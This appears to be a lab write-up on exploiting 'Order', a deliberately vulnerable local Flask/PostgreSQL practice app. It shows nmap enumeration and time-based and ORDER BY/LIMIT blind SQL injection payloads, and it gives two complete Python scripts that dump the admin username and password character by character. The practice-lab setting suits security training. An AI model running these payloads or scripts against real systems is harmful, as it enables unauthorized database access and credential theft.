

Oder is a small app written in Python (Flask) and PostgreSQL to practice blind SQLi in the ORDER BY clause.

Comes with a dockerfile, so it is easy to set up locally to practice yourself.

[Github Order Page](https://github.com/bmdyy/order)

# Diagram



## General Information

- Machine Name: Order
- IP Add: 172.17.0.2
- Machine OS: Linux
- Open Ports: 5000
- Programming Language: PostgreSQL

# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 172.17.0.2
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 5000

We try to open it on the browser


The introduction message we got is a hint about what we can do here

```
The page /horses has an SQL injection vulnerability in the ORDER BY clause. The goal of this challenge is to exploit this to dump the admin's credentials. You may check if you got the correct credentials by "logging in" at the bottom of the page.

All the tables which are present in the database this app uses are listed in the section below, as well as their columns.

To begin, press the Begin button. 
```


```
users: user_id SERIAL PRIMARY KEY, username VARCHAR(255) NOT NULL, password VARCHAR(255) NOT NULL
horses: horse_id SERIAL PRIMARY KEY, name VARCHAR(255) NOT NULL, birthdate DATE NOT NULL, description VARCHAR(255) NOT NULL
```

## app.py

Looking at the source code of app.py we found that it's possible vulnerable to SQLinjection on the order param


Let's continue.

### /horses

So, we access /horses and see the order clause on the page


Send it to burpsuite, to get the things easier to exploit

### SQLInjection Discovery

We try to send just a quote with the id, and we get an error!


So, it's possible vulnerable to SQLInjection

# Time-Base SQLInjection

We tried some standard payloads. We get some of them from this [cheatsheet](https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection)

And we saw that the pg_sleep worked, so it's vulnerable to time-based sqlinjection


It took three seconds then executed the command on the postgresql database

So, we mount our query based on this other [post](https://www.onsecurity.io/blog/pentesting-postgresql-with-sql-injections/)


```sql
SELECT CASE WHEN COUNT((SELECT password FROM users WHERE SUBSTR(password,1,1) SIMILAR TO '4'))<>0 THEN pg_sleep(5) ELSE '' END; -- -
```

And we discover that the first char of the password is 4


So we can now built our payload to extract the password, it's going to take a good time because it's time_based query. I needed to change to user_id = 1 because it was not getting the admin one, there are other user in the database, and we want only the admin one.

Let's make a exploit to do this all stuff together

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


time_based.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Exploit to extract username and password for admin user
# Time Based Blind SQLInjection
# Order - bmdyy

import argparse
import requests
import sys
import string

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Function to extract the hash for the username selected
def hashExtractTimeBased(rhost):
    global password
    url_true = "http://%s" %rhost + ":5000/horses?order=1;"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    password = []
    list = string.digits
    limit_inf = 1
    limit_sup = 1
    iterator = 0
    print("The password for the user id 1 is: ")
    while(iterator < len(list)):
        for c in list[iterator]:
            payload = "SELECT+CASE+WHEN+COUNT((SELECT+password+FROM+users+WHERE+user_id=1+AND+SUBSTR(password," + str(limit_inf) + "," + str(limit_sup) + ")+SIMILAR+TO+'" + c +"'))<>0+THEN+pg_sleep(2)+ELSE+''+END%3b+--+-"
            url = url_true + payload
            res = requests.get(url, proxies=proxies)
            elapsed = res.elapsed.total_seconds()
            #print(elapsed)
            #print(c)
            # TRUE boolean message
            if elapsed > int(2):
                password.append(c)
                limit_inf = limit_inf + 1
                #limit_sup = limit_inf + 1
                sys.stdout.write(c)
                sys.stdout.flush()
                iterator = 0
            else:
                iterator = iterator + 1
                url = url_true
    password = ''.join(password)
    
# Function to extract username selected
def usernameExtractTimeBased(rhost):
    global password
    url_true = "http://%s" %rhost + ":5000/horses?order=1;"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    password = []
    list = string.ascii_letters
    limit_inf = 1
    limit_sup = 1
    iterator = 0
    print("The username for the user id 1 is...")
    while(iterator < len(list)):
        for c in list[iterator]:
            payload = "SELECT+CASE+WHEN+COUNT((SELECT+username+FROM+users+WHERE+user_id=1+AND+SUBSTR(username," + str(limit_inf) + "," + str(limit_sup) + ")+SIMILAR+TO+'" + c +"'))<>0+THEN+pg_sleep(2)+ELSE+''+END%3b+--+-"
            url = url_true + payload
            res = requests.get(url, proxies=proxies)
            elapsed = res.elapsed.total_seconds()
            #print(elapsed)
            #print(c)
            # TRUE boolean message
            if elapsed > int(2):
                password.append(c)
                limit_inf = limit_inf + 1
                #limit_sup = limit_inf + 1
                sys.stdout.write(c)
                sys.stdout.flush()
                iterator = 0
            else:
                iterator = iterator + 1
                url = url_true
    password = ''.join(password)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    rhost = args.target

    '''Here we call the functions'''
    usernameExtractTimeBased(rhost)
    print()
    hashExtractTimeBased(rhost)
    print()
    
if __name__ == '__main__':
    main()
```

And now we try to login with this password


Done. We did by time based.

# Order By SQLInjection

We can mount it in a order by query also.

We get a TRUE statement


And a FALSE statement


```
Content-Length: 1750 - FALSE
Content-Length: 1484 - TRUE
```

Now we build our query to bruteforce it

This is TRUE, because we already know that the user_id first password char is 4

```sql
4 LIMIT (CASE WHEN (SUBSTR((SELECT password FROM users WHERE user_id=1),1,1))='4' THEN 1 ELSE 2 END)
```


This is FALSE, because we already know that the user_id first password char is not 1

```sql
4 LIMIT (CASE WHEN (SUBSTR((SELECT password FROM users WHERE user_id=1),1,1))='1' THEN 1 ELSE 2 END)
```


I'll use almost the same exploit I built earlier, just changing the payload I'll use and the condition to be true or not

And here it is


order_by.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Exploit to extract username and password for admin user
# Order By SQLInjection
# Order - bmdyy

import argparse
import requests
import sys
import string

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Function to extract the hash for the username selected
def hashExtractTimeBased(rhost):
    global password
    url_true = "http://%s" %rhost + ":5000/horses?order=1"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    password = []
    list = string.digits
    limit_inf = 1
    limit_sup = 1
    iterator = 0
    print("The password for the user id 1 is: ")
    while(iterator < len(list)):
        for c in list[iterator]:
            payload = "LIMIT+(CASE+WHEN+(SUBSTR((SELECT+password+FROM+users+WHERE+user_id=1)," + str(limit_inf) + "," + str(limit_sup) + "))='" + c + "'+THEN+1+ELSE+2+END)"
            url = url_true + payload
            res = requests.get(url, proxies=proxies)
            # TRUE boolean message
            if int(res.headers['Content-Length']) < int(1500):
                password.append(c)
                limit_inf = limit_inf + 1
                #limit_sup = limit_inf + 1
                sys.stdout.write(c)
                sys.stdout.flush()
                iterator = 0
            else:
                iterator = iterator + 1
                url = url_true
    password = ''.join(password)
    
# Function to extract username selected
def usernameExtractTimeBased(rhost):
    global password
    url_true = "http://%s" %rhost + ":5000/horses?order=1"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    password = []
    list = string.ascii_letters
    limit_inf = 1
    limit_sup = 1
    iterator = 0
    print("The username for the user id 1 is...")
    while(iterator < len(list)):
        for c in list[iterator]:
            payload = "LIMIT+(CASE+WHEN+(SUBSTR((SELECT+username+FROM+users+WHERE+user_id=1)," + str(limit_inf) + "," + str(limit_sup) + "))='" + c + "'+THEN+1+ELSE+2+END)"
            url = url_true + payload
            res = requests.get(url, proxies=proxies)
            elapsed = res.elapsed.total_seconds()
            # TRUE boolean message
            if int(res.headers['Content-Length']) < int(1500):
                password.append(c)
                limit_inf = limit_inf + 1
                #limit_sup = limit_inf + 1
                sys.stdout.write(c)
                sys.stdout.flush()
                iterator = 0
            else:
                iterator = iterator + 1
                url = url_true
    password = ''.join(password)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    rhost = args.target

    '''Here we call the functions'''
    usernameExtractTimeBased(rhost)
    print()
    hashExtractTimeBased(rhost)
    print()
    
if __name__ == '__main__':
    main()
```

Done!